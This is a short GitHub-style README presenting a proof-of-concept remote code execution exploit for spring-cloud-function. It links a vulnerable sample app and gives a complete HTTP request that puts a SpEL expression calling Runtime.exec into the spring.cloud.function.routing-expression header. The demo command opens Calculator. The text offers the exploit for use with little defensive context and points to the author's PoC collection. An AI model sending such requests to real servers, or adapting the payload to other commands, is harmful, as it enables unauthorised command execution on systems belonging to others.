

# spring-cloud-function SpEL RCE

## Vultarget

You can build it for youself. [here is the source of the Vuln App](./src)

Or you can use the release which built by cckuailong(Yh,it's me)

```
java -jar function-sample-pojo-3.2.1.RELEASE.jar
```

## Poc

```
POST /xxx HTTP/1.1
Host: test.com:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

xxx
```

## Result

RCE！！



Enjoy it!

I'll put the poc code in the repo:

https://github.com/cckuailong/pocsploit

